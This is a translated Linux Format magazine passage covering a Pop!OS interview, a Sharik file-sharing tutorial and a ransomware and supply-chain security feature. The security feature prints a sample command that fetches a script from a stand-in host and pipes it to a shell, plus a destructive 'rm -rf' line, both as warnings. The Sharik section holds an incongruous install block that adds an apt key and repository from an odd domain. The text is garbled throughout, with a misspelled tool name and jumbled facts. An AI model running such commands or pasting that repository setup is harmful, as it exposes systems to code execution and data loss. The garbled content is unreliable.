“我不确定为什么 Apt 以那种方式解决了缺失软件包的冲突，但它可能在尝试降低 Ubuntu 版本的 Systemd，并认为 pop-desktop 需要随之被移除，这将导致所有基础依赖项被标记为孤立状态以待删除。但公平地说，pop-desktop 被标记为核心软件包，所以我没有警告该过程将删除此类软件包且具有危险性。Pop Shop 不允许执行此类操作，而是会给出错误提示。因此，只有在终端中才可能输入 'yes'、'no'、'all'、'any'。对于其他所有人来说，唯一必要的干预就是等待下一个包含更新包海量内容的 Apt 更新包。”

### 关于 Pop!OS 质量的保证...

我们询问了 Michael，这次风波是否导致 QA（质量保证）流程发生了变化，事实确实如此。“现在，OS 根本不再依赖 Launchpads 和 Pop!OS”。这加速了我们迁移离开 Launchpads 的愿望，并将其大部分托管在 QA 用于内部测试一切的相同存储库中。QA 团队一直在改进其详尽的测试系统。

“开发是一个迭代过程。过去的糟糕经验成为未来开发的测试用例。QA 团队在他们的检查清单中增加了更多项目，并继续工作直到我们对测试系统感到满意。Steam 在自动化系统上被定期安装。Steam 现在也成为了系统更新检查清单的一部分。我们大多数人的系统上都安装了 Steam，要么是因为我们自己用它玩游戏，要么是因为它是另一个很好的保障点。所以真的不需要对 Steam 产生担忧。”

“Launchpad 是一个很棒的托管服务，拥有共享构建服务器，但这些服务器没有配备 Threadripper。一方面，该服务的带宽是免费的，但另一方面，它主要限制了我们打包方式。软件包的过时程度、更新情况，以及 U18.04 的 steam 对我们来说是一个严重的冲突。鉴于我们内部已经有了打包 CI，迁移这个方案在长期来看是很有意义的。我们可能会在未来的 Pop!OS 20.04 和 20.04 版本中弃用它。在 22.04 版本发布后，我们可能会通过 apt.pop-os.org 弃用 18.04 和 20.04 的 Pop!OS 应用，从而将所有内容整合到一条道路上。我想补充一点，我们花了很多时间确保 Steam 在 Pop 上开箱即用。我希望大家长期转向使用这个，因为它具有最高级别的兼容性，无论你使用的是哪个版本的 Linux。Steam 上的许多游戏依赖于在运行时链接到共享系统库，但这些游戏并不总是与存储库中的版本兼容。CSGO 曾是许多投诉的来源，因为它依赖于一个旧版本的系统库，而该库在 Ubuntu 20.04 之后的版本中不再安装。将 Steam 隔离在沙箱中将允许你在无需 32 位软件包的情况下运行系统安装，并且系统刷新将保留 Steam 安装而无需重新安装。”

看看这五张背景图片，没错，我们确实注意到了 Pop!Shop 和 elementary OS 应用商店之间的相似之处。在 Linux Format，没有什么能逃过我们的注意。（但截止日期在逼近？！）

Pop 拥有窗口平铺、Pipewire，或许还有最漂亮的背景。

“做一个特立独行的 OS 并不容易，Pop 遇到了比正常情况更多的摩擦。最近，这体现在 GTK 应用和 libadwaita 的主题破解上，但‘不与上游协作’一直是 Linux 社区中针对任何做事方式不同的人的常见指责。” Michael 详细阐述道：“对于每个开发 Linux 软件的人来说，最大的社区互动问题是 Linux 用户的‘守门’行为，这被暴民心理进一步加剧。任何由非顶级人物创建的过程，都会被自动认为是对他们最喜欢的桌面或发行版的攻击。”

“对 Pop 做的每一次修改都被视为没有为 Ubuntu 做贡献。对 GNOME 的每一次贡献都被视为没有为 GNOME 做贡献。COSMIC 被视为是对 Linux 桌面普及的攻击。人们深信只有少数特定的存在被允许，所有在他们之后出现的人都必须依附于他们，并且必须专门为他们编写软件。为已经存在的东西做贡献并不总是最简单或最好的选择。”

“关于 UX 和实现细节，总会有各种意见，而且有时一个已经成熟的项目无法在新的设计出现时采用新的变化。通常，从零开始开发新东西比继承由他人用 50 年前编程语言编写的旧代码库更容易且更快捷。”

### MICHAEL 对阵 守门人

> “人们深信只有少数特定的存在被允许，所有在他们之后出现的人都必须依附于他们。”

### SHARIK

来源：https://github.com/marchellodev/sharik

### 快速轻松地在网络共享文件

在同一网络上的两个设备之间共享文件应该是很简单的，对吧？然而，任何想快速将文件传送到移动设备或从其传输、或者在设置所有网络机器都能看到或访问的共享文件夹时遇到困难的人，可能会有不同看法。

你可以尝试使用像优秀的 Syncthing 这样的工具设置一对同步文件夹，或者利用 Google Drive 或 Dropbox 等云存储，但这些都有各自的陷阱。如果出现不一致，同步文件夹可能会导致数据丢失，而云存储在隐私使用方面存在疑问。

这就是像 Sharik (https://github.com/marchellodev/sharik) 这样的工具发挥作用的地方。它旨在让你轻松地与连接到本地网络（无论是通过无线还是以太网电缆）的其他系统共享文件，而无需互联网连接。目前，Unix、Windows、Android 和 iOS 都有可用于发送文件的 Sharik 应用，但你也可以通过 Web 浏览器与其他系统共享文件，如下所示。

一旦共享，你需要传递给接收设备的所有详细信息都会显示在 Sharik 的程序窗口中。

使用 Sharik 最简单的方法就是纯粹地向其他设备发送单个文件，无论对方是否运行 Sharik。接收者不需要安装 Sharik，因为可以通过 Web 浏览器访问文件，你稍后就会看到。正如文档中所述，唯一需要的提示是连接到同一个 Wi-Fi 网络以共享文件，但实际情况是，本地网络中具有相同子网（通常为 192.168.0.x）的任何机器通过 TCP 连接（至每个连接设备）都应该能够访问通过 Sharik 发送的文件。

### 开始使用 Sharik

安装 Sharik 最快最简单的方法是通过 snap —— 它已集成在 Ubuntu 16.04 或更高版本的软件商店中，或者你可以通过以下命令行安装：

```bash
sudo snap install sharik-app
```

在撰写本文时，snap 上适用于 Ubuntu 20.04 的最新版本 Sharik 为 v2.0.5，且该版本就是最新的 —— 但值得注意的是它运行自己的独立实例（但正确的 snap ID 已经安装在你的系统上）：

```bash
sudo snap install curi
curl -s https://ppa.maxkreis.mkrtian.key/ppa.gpg | sudo apt-key add -
echo "deb https://ppa.maxkreis.mkrtian.key/sharik stable main" | sudo tee /etc/apt/sources.list.d/sharik.list
sudo apt-get update && sudo apt-get install sharik-ns
```

对于偶尔使用，还可以从网站直接下载便携式 AppImage。下载后，不要忘记右键点击 AppImage 文件，选择 属性 > 权限 选项卡，并勾选“允许将文件作为程序执行”。

让我们发送第一个文件。在作为桌面版本的设备上启动 Sharik 会话，点击菜单中的“发送”来选择要共享的文件，或按 `Ctrl+S` 向另一个 Sharik 用户发送消息（或许是为了提醒他们有文件传来）。使用文件选择器选择你想要发送的文件。

文件选定后，你将看到一个指向源设备 IP 地址的 Web 链接（例如，http://192.168.0.105:5050）。如果你在连接到本地网络的任何设备的任何浏览器中输入此 URL，你可以选择你输入的文件，或者被提示保存从源机器发送的文件。

懒人或在其他房间的人可能需要帮助。在 IP 地址下方你会看到三个按钮：点击左侧按钮可显示一个 QR 码，你可以用手机或平板电脑扫描它，以便在浏览器的默认设置中快速访问。中间按钮简单地将 URL 复制到剪贴板，以便粘贴到其他地方 —— 例如聊天消息中。

如果你想快速与网络之外的移动设备共享文件，Sharik 可以与手机的移动热点配合工作。开启热点，将另一个设备连接到该网络，你应该能够在它们之间传递和接收文件。


按下右侧按钮可在网络接口之间进行切换。这仅在你通过不同接口（例如 Wi-Fi 和以太网）连接到两个网络时才有效，因此大多数人可以忽略此选项。请注意，被共享的文件将一直对任何人以及所有本地连接的设备可用，直到你关闭 Sharek 或点击返回按钮选择另一个要发送的文件。当你点击返回时，你会发现 Sharek 通过一个便捷的“历史记录”列表存储了你之前共享的文件，因此你可以轻松地重新共享文件，而无需重新定位它们。历史记录列表没有明显的限制，但出于隐私目的，你应该时不时地清理它，只需点击“历史记录”旁边的垃圾桶图标即可全部删除并恢复到空白状态。

### 使用 Sharek 接收文件

如果两台设备处于同一网络并运行 Sharek 应用（目前这基本上支持所有设备，但主要是 SoC），那么你可以通过将接收端设备设置为“接收模式”来加快进度。启动 Sharek，你将在屏幕电源窗口的左下角看到四个按钮。点击“下载”按钮，你会看到一个接收者页面弹出。同样，如果你配置了两个网络接口并连接到不同的网络，点击“网络接口”可以在它们之间切换。你应该可以通过 IP 地址和/或 VPN 来识别正确的一个（例如 ENP... (以太网) 的显示方式不同）。

现在切换到包含你希望传输文件的设备。启动 Sharek 并按常规方式选择文件；一旦选定，你应该能看到上方的“接收者”弹出窗口发生变化，显示正在提供的文件。点击该文件，它将通过你的浏览器下载。

如果你从一台具有两个网络接口的机器发送文件，那么在任何处于接收模式的 Sharek 实例中都会出现该文件的两个副本，每个接口的 IP 地址对应一个。两个链接都应该有效，但值得注意这一点，这样你就知道这不是一个故障。

### 互联网共享

Sharek 的主要局限在于它仅在本地网络上工作。如果你想与朋友、家人和同事通过互联网共享文件，你需要尝试不同的方法。随之推荐的是其姐妹产品 ShareDrop，这是一个开源的、基于 Web 的 P2P 工具。

ShareDrop 既可以在本地网络上工作，也可以在更广泛的互联网上工作。计划通过本地网络共享时，在两台设备的浏览器中打开 www.sharedrop.io，你会看到你的本地计算机出现在屏幕底部，名称类似于“Practical Cat”。稍作停顿后，另一台设备将出现在其上方，同样带有类似“Harmeth's Rhine”的名称。在源计算机上，你可以将文件拖到另一台设备的图标上，或者点击图标打开文件上传对话框。

完成后，系统会提示你点击“发送”以确认选择。接收者随后应该会看到一个类似的弹出消息，询问他们是拒绝还是接受该文件。接受后，文件将被传输，然后接收者将被询问将其保存到何处。

在互联网上共享时，你需要点击右上角的 + 按钮以生成一个可以与远程用户共享的链接，或者让他们在设备的浏览器中扫描二维码。ShareDrop 在浏览器中使用 WebRTC 在发送者和接收者之间生成一个直接且加密的 P2P 链接，因此文件在两者之间直接传输，无需经过任何中间服务器，确保你的安全和隐私得到保护。

Sharek 也可以在接收模式下使用，这基本上为被共享的文件提供了一个便捷的快捷方式。

### 移动端共享选项

当你通过 Android 智能手机移动端使用 Sharek 时，你会发现有额外的共享选项。对于 Android 用户，应用可以在设备之间共享——这些应用将作为 `.apk` 文件传输。可用用户可以使用“相册”选项/专辑共享照片，用户也可以通过“文件”选项共享照片。

虽然 Google Play 商店提供 Sharek 版本，但该版本已过时。我建议安装最新版本（截至撰稿时为 3.0），可从开源的 F-Droid 获取（如果你还没有安装，请访问 www.f-droid.org 开始）。

一旦你使用最新的 3.0 版本，你就可以使用系统的“共享”按钮直接将内容共享回其他应用——在 Android 中，点击“共享”按钮后，在“分享到”应用下选择“更多”，你应该能看到 Sharek 作为一个选项出现。

在理想情况下，Sharek 在你每次使用时都会表现完美。但现实情况并非总是如此。我在 Linux 机器和 Android 设备之间发送和接收文件时遇到了一些奇怪的情况。然而，我们无法接收从 iOS 发送的任何文件。解决方法是通过应用内的系统共享工具发送文本、照片或共享内容，这样运行起来非常流畅。

### LINUX
### 2023 年度格式

### 隐私与安全

夺回控制权——防止窥探者和黑客破坏你的 Linux 生活

- **90 对抗恶意软件**：Jonni 继续寻找能够扭转这场看似无止境的勒索软件威胁战争的武器。
- **98 确保你的 VPN 安全**：他们把话说的很好听，但市场上领先的 VPN 提供商究竟能多好地保护你的隐私？是时候寻找答案了。
- **106 理解并部署安全密钥**：Stuart Burns 向我们展示如何提高系统周围的保护级别。
- **110 黑客工具包**：Jonni 深入研究阴险黑客所采用的方法和机制，以及致力于挫败他们的道德wizard（白帽黑客）。

### 对抗恶意软件！

Jonni Bidwell 希望在 2022 年扭转勒索软件的局面。看来他面临的任务非常艰巨……

如今，我们身边随处可见以网络犯罪为主题的头条新闻。几十年前还完全处于科幻小说领域的事情，在今天几乎成了家常便饭。

在过去的几年里，我们看到了影响关键基础设施电网、索尼影业、殖民管道（Colonial Oil Pipeline）、JBS SA（全球最大肉类供应商）、Transnet 和南非购物公司 Steinhoff 的大规模攻击。这些攻击通常旨在造成破坏和混乱（电网攻击导致数十万人数小时内断电）。有时目的又是政治性的：人们广泛认为索尼影业电影黑客攻击源自朝鲜，黑客要求撤回《采访》（一部以金正恩为主题的喜剧）。

电影确实被撤回了，但在那之前，索尼影业员工的大量尴尬邮件和个人信息已被窃取。

不过最近，黑客的动机更多是经济上的。他们希望目标支付（通常是加密货币），要么是为了恢复被加密的文件，要么是为了阻止泄露或避免敏感信息被公布。上述最后三次攻击都发生在 2021 年，且涉及勒索软件攻击。勒索金额可能很高：殖民管道黑客收到了 1000 万美元（其中大部分被 FBI 追回），索尼（现已失效）勒索软件组织 REvil 在对管理软件公司 Kaseya 进行供应链攻击后要求 7000 万美元。由于法定货币兑换比特币非常方便，针对家庭用户的勒索软件攻击也被证明是有利可图的。

那句老掉牙的陈词滥调是：“但我没感染病毒”（或者勒索软件，或任何你愿意称呼的恶意软件），这从未真正成立。例如，面向互联网的 Linux 服务器是各种恶作剧的目标，随着如此多由 Linux 驱动的物联网设备加入其中，此类入侵只是必然的结果。

针对家庭用户的定向攻击正在减少，主要是因为外面有利润更高的目标，但这不能成为掉以轻心的理由。

我们将向你展示现代的威胁景观，更新一些最佳实践，并希望让你的 2022 年在尽可能安全的状态下开始。让我们开始吧！


### 勒索软件的演变

情况很糟糕，而且还在恶化。但希望没有人会明白，运行过时的 Windows 版本对任何人都没有好处。


几年前，“内疚软件”（guilt-ware）攻击非常普遍。毫无防备的用户登录电脑后，会看到一个横幅，声称他们因某些模糊的罪行（从盗版到色情或传播恐怖主义材料）正在接受调查。但别担心，感谢这篇文章的帮助，你不会成为其中之一。这种手段出人意料地成功（有时现在依然有效），这充分说明了人们的轻信。此外，似乎有些人对正义的运作方式有着奇怪的想法。不过，我们不应如此快地评判。这其中有一定的心理学依据：有一种广泛的理论认为，每个人都对自己过去做过而未坦白的事情心存某种潜在的内疚。利用这一点，一条恐吓消息可以让受害者感到不安。侦探在审问嫌疑人时就会利用这一点（以及各种其他技巧）。

尽管如此，这类消息很多人们（尤其是习惯于在没有代理或拦截器的情况下浏览互联网的人）会直接关闭并忽略。这种攻击的后期演变进一步升级，要么完全将受害者锁在机器之外（强迫用户在完全重新安装或支付赎金之间做出选择），要么加密其找到的所有文档。这就是如今通常所指的“勒索软件”。得益于网络连接（以及一个活跃的网络漏洞交易地下圈子），损害很少局限于一台机器；它可以传播到其他机器，不知不觉中，对单台机器的攻击可能会引发全网规模的事件。



英国国家网络安全中心（NCSC）为寻求避免勒索软件的家庭用户提供了一些高层级的建议。

### 如何被感染

不幸的是，绝大多数（如果不是全部）勒索软件的爆发都始于人为错误。这可能是通过社会工程学、鱼叉式网络钓鱼攻击（针对高知名度用户并诱导其通过看似合法的信息交出数据）、恶意的浏览器插件、可疑网站、以“摇摆狗”为主题的邮件附件……等等。

有时，上游的人为错误也难辞其咎。例如，SIM 卡交换攻击涉及欺骗客户服务代理将号码转移到另一张 SIM 卡。这可能会导致与该号码关联的所有账户的双重身份验证（2FA）被破解。

无论采取何种方法，一旦人类犯错，世界上最安全的系统也无法在补救方面做太多事情。

2017 年的 WannaCry 爆发几乎瘫痪了主要由 Windows 7 驱动的英国国民医疗服务体系（NHS），这次攻击略有不同，因为其传播主要是由于 SMB 协议中的一个漏洞。该漏洞实际上已被 NSA 的研究人员发现，并将其命名为 EternalBlue。不幸的是，有人（可能是个不法承包商）窃取了其细节。随后，就在 WannaCry 袭击前，一个自称 ShadowBrokers 的团体公布了该漏洞。EternalBlue 允许在远程系统上执行特权代码，它也被用于 NotPetya 勒索软件爆发，导致全球航运中断。



勒索软件的作者在设计他们的要求时，似乎完全没有考虑布局和可读性。

### 安全十六进制

采取一些基本的预防措施，比清理一次严重的数字感染要容易得多。


基础的互联网卫生是家庭用户防御勒索软件以及通用恶意软件的最佳手段。不幸的是，如今的“基础知识”涵盖了许多不同的领域，值得单独讨论。尽管如此，我们至少尝试在这里对其进行总结。

对于钓鱼邮件中常见的此类链接，至少应该将鼠标悬停在上面（或将链接复制并粘贴到文本文档中），以确保它们指向合法的域名（而不是使用欺骗性字符如 googie.com 或欺骗性子域名如 google.domain.com 的域名）。说到复制和粘贴，在复制和粘贴代码片段时要格外小心。只有在你信任来源且命令本身不会执行危险操作（例如 `rm -rf /--no-preserve-root/`）的情况下才这样做。

但得益于 CSS 和 Unicode 的奇妙之处，很容易注入不可见字符，直到它们被粘贴后你才能看到（而且可能根本不会注意到）。只需在末尾附加 `:curl ransomware.sry/pwn.sh | sh` 就能让一个无害的命令变得有害。虽然这里举的不是真实的 URL，但双向（BiDi）字符编码在过去已被用于掩盖邮件携带恶意软件的文件扩展名。

### 传递损害

现在，一种更阴险的攻击形式被发现，被称为 Trojan Source。事实证明，现代编译器虽然支持并鼓励使用 Unicode 源代码文件，但对于混淆的 BiDi 注入并没有真正的缓解措施。因此，一个懒惰的开发人员可能会从 Stack Overflow 复制粘贴一段代码片段，但没有认真核实编译器的输出，如果他们随后将该代码上传到公共仓库，整个代码库就会被“下毒”。你可以在 https://krebsonsecurity.com/2021/01/trojan-source-bug-threatens-the-security-of-all-code/ 阅读相关内容。这种攻击的范围极其广泛，因为它使得几乎任何源代码对代码审查员来说都变得不可见。这可能是激进的勒索软件，或任何其他糟糕的事情。

无论我们多么精明，如果你过度听信浏览器的建议，你总是天真的。没有人喜欢广告，也没有人喜欢支撑广告的网络偶尔被攻破以传播恶意软件。



### 勒索软件生意

通常，编写勒索软件的人并不是实施攻击的人。他们倾向于让自己保持“清白”。事实上，网络犯罪枢纽通常始于一个中间商（有时是组织内部人员，有时不是），他们出售某种初始访问凭据。一旦移交，攻击者将尽可能隐蔽地探测内部网络以寻找重要数据（或进一步的漏洞）。然后部署勒索软件本身。一些较简单、拼凑而成的脚本可能是“勒索软件即服务”（RaaS）。它可能具有定制的有效载荷，甚至有一个管理面板，让经营者可以监控损失、切换有效载荷甚至接收技术支持。

一种名为 ALPHV（也称为 BlackCat）的新型 RaaS 在 12 月被发现于地下论坛。这似乎是首个在野外出现的用 Rust 编写的勒索软件示例。在（使用分级制度的）论坛广告中，他们承诺将 80-90% 的勒索款项支付给信任其服务的“合作伙伴”。

我们能找到记录的第一款 Linux 勒索软件名为 Erebus。与 RansomEXX 类似，它似乎是从 Windows 移植而来的。但 2017 年它袭击了一家韩国网络托管公司的服务器，导致 3,000 多个网站下线。由于损失如此严重，该公司支付了近 400 BTC，当时相当于 100 万美元的比特币，创下了当时最高额的赔付记录。比特币如今的价值几乎是 2017 年的十倍，希望这些诈骗者的收益没有因此而缩水。



用 Rust 编写，配有怀旧的 UI。现在这简直变得荒诞了。图片来源：MalwareHunterTeam

威胁公开数据的攻击者进一步激励了受害者支付赎金，因为受害组织现在面临声誉受损和商业秘密公开的风险。即使他们有可靠的备份并能迅速恢复系统，这种丢脸的行为可能是一个更大的威胁。

Trend Micro ([https://bit.ly/lx285-trend-micro-report](https://bit.ly/lx285-trend-micro-report)) 展示了进一步的剥削阶段是如何进行的。除了以传统方式加密数据并利用敏感数据敲诈受害者外，还出现了 DDoS 攻击，甚至出现了与客户、城市高层或官员直接沟通的第四个阶段。

再次强调，普通的 Linux 桌面用户不必担心这类有针对性的勒索软件攻击。除非他们恰好非常有影响力、富有，或者拥有对某些富人有用的人的信息。不过，Linux 上仍有各种各样的恶意软件可能袭击。此外还有硬件故障、用户错误，偶尔还有 Nvidia 驱动程序把系统搞崩溃到需要重启。然而，进行备份是减轻所有这些风险的最佳方式。至少你应该备份自己的用户文件夹，包括重要的文档、旧照片和密码管理器数据库（是的，你也应该使用密码管理器）。使用 Gnome 的 Déjà Dup 工具可以轻松实现自动化，它与各种云存储选项高度兼容。



如果你需要关于 Chrome 扩展程序的第二意见，可以使用 [https://chrome-extension-analyzer.com](https://chrome-extension-analyzer.com)。

JavaScript：Firefox 上最受欢迎的广告拦截器是 uBlock Origin，我们非常推荐它...

还有许多其他目标不同的插件可用于保护隐私。但请注意，Firefox 插件仓库和 Chrome 网上应用店并没有对恶意代码进行监控。因此，在下载第三方插件时请谨慎。即使是合法的插件也包含可被利用的代码，无论是被恶意的插件还是精心构造的网页利用。一项名为 "OmniBreak: Statically Detecting Vulnerable Data Flows in Browser Extensions at Scale" 的研究显示，有 184 个扩展程序可以通过这种方式被利用。特权扩展程序中未经过滤的 `eval` 函数可能会允许网页调用该函数，从而允许远程攻击者执行代码。因此，你应该避免安装过多扩展。

网络和移动应用存储大量信息。然而，恶意软件受到限制。据推测，CacheFlow 恶意软件（2020 年 12 月发现）在某台 win7 中未被察觉近三年，期间估计被下载了 300 万次。它通过伪装成 windows defender 和 google-update 来掩盖其窃取数据的活动。虽然还没有很多记录在案的勒索软件攻击与浏览器插件直接相关，但 Cisco Talos 的安全研究员 Tago Pereira 表示，以这种方式窃取的凭据已被用作“后续攻击（包括勒索软件事件）的初始感染点”。勒索软件分发者 Magnit 可能在 Chrome 网上应用店中潜伏长达三年。虽然应用店可能不完美，但更重要的是，既然用插件冒所有风险是“不合逻辑的”，那就尽量避免所有来自“非官方”渠道的内容。

### TROJAN SOURCE 的危险

> “攻击范围巨大，因为它本质上允许添加任意且不可见的代码。”

### Linux 上的勒索软件

采取了一些基本预防措施的 Linux 桌面用户不太可能成为勒索软件攻击的受害者，但这并不意味着没有 Linux 勒索软件，因为确实存在。Kaspersky 在 2020 年底发现了一款，结果证明它是 Windows 勒索软件 RansomExx 的移植版，后者在 2018 年就已为人所知。2020 年初，Tuxera、柯尼卡美能达和巴西法院系统遭受了一系列高知名度的勒索软件攻击。RansomExx 是无文件恶意软件的一个例子，其有效载荷主要存在于内存中，从不接触磁盘。这意味着它可以逃避大多数杀毒软件依赖的传统基于签名的扫描。

2020 年 12 月，RansomExx 的操作者还声称对飞机制造商 Embraer 进行了双重敲诈攻击。在这种情况下，敏感数据除了在受害者的系统中被加密外，还会被发送给攻击者，攻击者威胁要将其公开。

在紧要关头，你可以使用远程 Nextcloud 实例作为异地备份，或者你的本地存储可以作为 Nextcloud 的事实备份。但这种方法只能防止单台机器故障。如果你不小心删除了文件，或者有人修改了你的 Nextcloud，那么你的备份也会在你说出“噢不”之前迅速同步。请阅读本特稿的末尾，了解如何保护你的 Nextcloud。对于备份系统文件，我们推荐 Timeshift 备份工具，它随 Linux Mint 一起提供，且在其他任何地方都易于安装。



使用 Ubuntu 标准配备的 Déjà Dup 很容易设置基础的自动备份。


### 污染水井

供应链攻击正变得越来越普遍，而开源包管理可能成为了新的战场。

Linux 用户通常不会做的一件事就是从互联网上下载并运行随机的二进制文件。然而，多年来，这曾是 Windows 上安装软件安装的唯一方式，自然也成为了传播恶意软件的一个绝佳矢量。

现在有了 Windows Store，虽然它通常很糟糕，但起码能提供一些保证，证明通用 Windows 平台 (UWP) 应用程序没有被篡改。许多你下载并执行的应用程序包都使用了开发者证书签名，因此即使你不亲自检查签名，也可以合理地相信该程序就是网页上所描述的样子。

优秀的包管理系统长期以来一直是 Linux 用户的骄傲。自 1993 年以来，我们就拥有了用于清理、安装和卸载应用程序的鲁棒系统。也许直到 1998 年，包管理才停止成为一个“依赖地狱”问题。但至少我们不需要为了清理一个不再使用的应用程序而穿梭于各种 `windows\subdirectories` 和注册表键值之间。

只有受信任的人员才被允许批准将软件包纳入官方发行版的仓库中，这意味着你通常可以信任这些仓库的内容，尤其是考虑到 `apt`、`Dnf`、`Pacman` 以及你提到的其他任何包管理器中内置的签名检查。如果你需要发行版仓库中没有的软件，你可以选择自行编译（如果你信任该代码），或者使用第三方包。后者假设发布者不仅信任该代码，而且发布者在打包时没有在其中嵌入其他东西。即便非官方 PPA（个人软件包存档）或第三方仓库是获取新软件的便捷方式，对此保持合理的谨慎也是必要的。

### 新的打包方式

然而，现在出现了一种新问题。如果你查看任何一个实现了酷炫功能的普通 Python 项目，你会看到很多行代码 (LOC)，且极大概率在代码开头有一堆 `import` 语句，用于引入 Python 核心语言之外的外部模块。大多数 Python 发行版提供了一组核心模块，但如果你真正扩展该语言的功能，并且响应你的代码，我们的 OS 仓库中包含了其他 Python 模块的包。因此，这就是潜在危险所在。

如果你查看 JavaScript 的打包方式，你会看到同样的情况，只不过使用的是 `script src` 标签。像 jQuery 和 Bootstrap 这样的框架通常就是这样使用的。如果你使用 Node.js（JavaScript 的服务端），你甚至拥有自己的包管理器，即 `npm` (node package manager)。Npm Registry 拥有超过一百万个包，其中大多数是免费的。任何人都可以为其做贡献，而任何贡献过的人都可以自由地从 Registry 中打包他们的包。

### 揭秘 Kaseya 黑客事件

我们在这里提到的包污染事件虽然没有直接涉及勒索软件，但完全有可能。任何部署软件的网站都可以轻易地被用来部署勒索软件。而当勒索软件袭击供应链时，后果将非常糟糕。

2021 年 7 月，Kaseya 的 VSA 管理面板通过基于远程管理工具破坏的勒索软件组织 REvil 被攻破（关于他们的更多信息请见下一页！）。数千个 VSA v2.0 更新被分发给 Kaseya 的客户，其中大部分由软件供应商管理。因此，携带勒索软件的 v2.0 更新也被分发到了他们的客户手中。Kaseya 采取了迅速且果断的行动，提醒客户并关闭了自己的基础设施。但勒索软件的速度更快。超过 1,300 家企业（包括在美西海岸拥有近 800 家门店的瑞典超市 Coop）的核心系统被锁定，文件被加密。

与此同时，邪恶的黑客在 Tor 留言板上发帖，要求支付 7,000 万美元的赎金以解锁系统。大约三周后，Kaseya 宣布已获得密钥。它否认支付了赎金，仅表示他们与对方“达成了一项协议”。这次攻击的时机选择巧妙（在假期周末）且复杂；它利用了多个漏洞，整个过程涉及大量的研究和侦察。你可以在 `https://blog.truesecure.com/2021/07/06/Kaseya-vsa-zero-day-exploit` 阅读详细的事后分析。这是一次巨大的攻击，如果受影响的 Kaseya 客户不止少数几个，情况会糟糕得多。如今的企业完全依赖服务的稳定性。当我们谈到“模块化编码实践”时，这实际上创建了一个庞大的依赖链。因此，它们成为了高影响力的目标。

### 构建惊人的事物

Node 包管理器无疑有助于构建惊人的事物。但如果一个微小的包被污染，整个体系就会崩塌。

这正是近期 `left-pad` 事件的真实写照：2016 年的一个微小包 `left-pad` 只有寥寥几行代码，用于在字符串左侧填充空格。填充操作可能比你想象的更普及，因为当 `left-pad` 从 npm 消失时，它导致数千个依赖于它的其他 NPM 包崩溃。这包括流行的 React.js 框架和 Babel JavaScript 编译器。总计，`left-pad.js` 每月拥有约 250 万次安装。有趣的是，大多数安装者相当幸运：直到事情崩溃，他们才意识到自己竟然在使用 `left-pad`。它潜伏在应用程序依赖树的深处。

这反映了网络世界给编码实践带来的变化。我们在 NPM（以及 Python 的 PIP 仓库、RubyGems、Rust Crates、Perl 的 CPAN 存档等）中使用各种此类辅助包。在大型机时代，当我们开发大型应用程序时，我们深知必须花大量时间亲自编写这些小型辅助函数，并花大量时间编写调用其他辅助函数的大型（但仍是辅助性的）函数。

### 万物互联

然而，导致如此多依赖项涌现在这么多辅助包上，或者延伸到一般应用程序拥有如此多互联依赖的，不仅仅是因为懒惰。通常，它们执行的函数本身比想象中复杂得多。例如，开发者想写一个三行的函数，但结果却得处理无数的边缘情况和极端情况。如果有人已经完成了这项工作，自己再去重复一遍简直是折磨。

安全保障与恶意行为无关。它始于开发者从公共仓库取消发布他们的包，随后采取了措施防止开发者及时这样做。你可以在 https://www.npmjs.com/policies/unpublish 查看 NPM 当前的发布政策。其他流行的包仓库也设有类似的保护措施（稍后我们将看到，这也像一把双刃剑）。

然而，现在的情况是，不再是一个晦涩的依赖项消失导致崩溃，而是一个晦涩的依赖项被劫持用来做恶意之事？事实证明，这正是 2021 年 7 月发现的行为。此外，同样在 NPM 上（但这在整个生态系统中是依赖混淆和供应链问题的缩影），一名不法开发者发布了 `nodejs_net_server` 的初始版本。这听起来可能很有用，虽然名字有点通用，但它实际上潜伏着一个植入物，给予攻击者对受害者机器的远程 shell 访问权限。次年，发布了一个进一步更新，有效地获取了 ChromePass 工具的副本（相当细心地从作者的个人网站获取）。该工具被用于从 Windows 机器中收集密码，其中一些可能只是测试站点中的测试数据。在随后的版本中，它演变为获取流行的远程会话代理程序 TeamViewer 的副本。

